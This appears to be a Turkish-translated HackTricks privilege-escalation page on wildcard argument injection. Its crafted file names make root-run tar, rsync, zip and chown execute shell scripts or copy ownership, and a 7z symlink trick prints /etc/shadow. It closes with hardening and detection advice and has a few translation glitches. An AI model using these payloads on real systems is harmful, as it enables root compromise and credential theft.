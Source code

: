 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (aka *glob*) **argüman enjeksiyonu**, ayrıcalıklı bir betik `tar`, `chown`, `rsync`, `zip`, `7z`, … gibi bir Unix ikili dosyasını, tırnak işareti olmadan bir wildcard ile çalıştırdığında gerçekleşir. 
> Shell, wildcard'ı **ikili dosyayı çalıştırmadan önce** genişlettiğinden, çalışma dizininde dosya oluşturabilen bir saldırgan, `-` ile başlayan dosya adları oluşturabilir, böylece bunlar **veri yerine seçenekler** olarak yorumlanır ve etkili bir şekilde rastgele bayraklar veya hatta komutlar gizlenebilir. 
> Bu sayfa, 2023-2025 için en yararlı ilkelere, son araştırmalara ve modern tespitlere dair bilgileri toplar.

## chown / chmod

`--reference` bayrağını kötüye kullanarak **rastgele bir dosyanın sahipliğini/grubunu veya izin bitlerini kopyalayabilirsiniz**:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Kök daha sonra şöyle bir şey çalıştırdığında:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` enjekte edilir, bu da *tüm* eşleşen dosyaların `/root/secret``file`'ın sahipliğini/izinlerini miras almasına neden olur.

*PoC & araç*: [`wildpwn`](https://github.com/localh0t/wildpwn) (birleşik saldırı).
Ayrıntılar için klasik DefenseCode makalesine de bakın.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

**checkpoint** özelliğini kötüye kullanarak rastgele komutlar çalıştırın:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Bir kez root `tar -czf /root/backup.tgz *` komutunu çalıştırdığında, `shell.sh` root olarak çalıştırılır.

### bsdtar / macOS 14+

Son macOS'taki varsayılan `tar` (`libarchive` tabanlı) `--checkpoint`'i *uygulamaz*, ancak dış bir sıkıştırıcı belirtmenize olanak tanıyan **--use-compress-program** bayrağı ile kod yürütme elde edebilirsiniz.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Bir ayrıcalıklı betik `tar -cf backup.tar *` çalıştırdığında, `/bin/sh` başlatılacaktır.

---

## rsync

`rsync`, uzaktan kabuğu veya hatta uzaktan ikili dosyayı `-e` veya `--rsync-path` ile başlayan komut satırı bayrakları aracılığıyla geçersiz kılmanıza olanak tanır:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Eğer root daha sonra dizini `rsync -az * backup:/srv/` ile arşivlerse, enjekte edilen bayrak uzaktaki tarafınızda shell'inizi başlatır.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` modu).

---

## 7-Zip / 7z / 7za

Yetkili script *savunmacı* bir şekilde joker karakteri `--` ile öne eklese bile (seçenek ayrıştırmasını durdurmak için), 7-Zip formatı **dosya liste dosyalarını** dosya adını `@` ile öne ekleyerek destekler. Bunu bir sembolik bağlantı ile birleştirmek, *rastgele dosyaları dışarı aktarmanıza* olanak tanır:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Eğer root şöyle bir şey çalıştırırsa:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip, `root.txt` dosyasını (→ `/etc/shadow`) bir dosya listesi olarak okumaya çalışacak ve çıkacaktır, **içeriği stderr'ye yazdıracaktır**.

---

## zip

`zip`, arşiv test edileceğinde sistem kabuğuna *kelimesi kelimesine* iletilen `--unzip-command` bayrağını destekler:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## Ekstra ikili dosyalar wildcard enjeksiyonuna karşı savunmasız (2023-2025 hızlı listesi)

Aşağıdaki komutlar modern CTF'lerde ve gerçek ortamlarda kötüye kullanılmıştır. Payload her zaman daha sonra bir wildcard ile işlenecek yazılabilir bir dizin içinde bir *dosya adı* olarak oluşturulur:

| İkili | Kötüye kullanılacak flag | Etki |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → keyfi `@file` | Dosya içeriğini oku |
| `flock` | `-c <cmd>` | Komutu çalıştır |
| `git`   | `-c core.sshCommand=<cmd>` | SSH üzerinden git ile komut çalıştırma |
| `scp`   | `-S <cmd>` | ssh yerine keyfi program başlat |

Bu primitifler *tar/rsync/zip* klasiklerinden daha az yaygındır ancak avlanırken kontrol etmeye değer.

---

## Tespit & Güçlendirme

1. **Kritik betiklerde shell globbing'i devre dışı bırakın**: `set -f` (`set -o noglob`) wildcard genişlemesini engeller.
2. **Argümanları alıntılayın veya kaçırın**: `tar -czf "$dst" -- *` *güvenli değildir* — `find . -type f -print0 | xargs -0 tar -czf "$dst"` tercih edilmelidir.
3. **Açık yollar**: `*` yerine `/var/www/html/*.log` kullanın, böylece saldırganlar `-` ile başlayan kardeş dosyalar oluşturamaz.
4. **En az ayrıcalık**: Mümkünse yedekleme/bakım işlerini root yerine ayrıcalıksız bir hizmet hesabı olarak çalıştırın.
5. **İzleme**: Elastic’in önceden oluşturulmuş kuralı *Wildcard Enjeksiyonu ile Potansiyel Shell* `tar --checkpoint=*`, `rsync -e*` veya `zip --unzip-command` ile hemen ardından bir shell alt süreci arar. EQL sorgusu diğer EDR'ler için uyarlanabilir.

---

## Referanslar

* Elastic Security – Potansiyel Shell via Wildcard Injection Tespit edildi kuralı (son güncelleme 2025)
* Rutger Flohil – “macOS — Tar wildcard enjeksiyonu” (18 Aralık 2024)

{{#include ../../banners/hacktricks-training.md}}
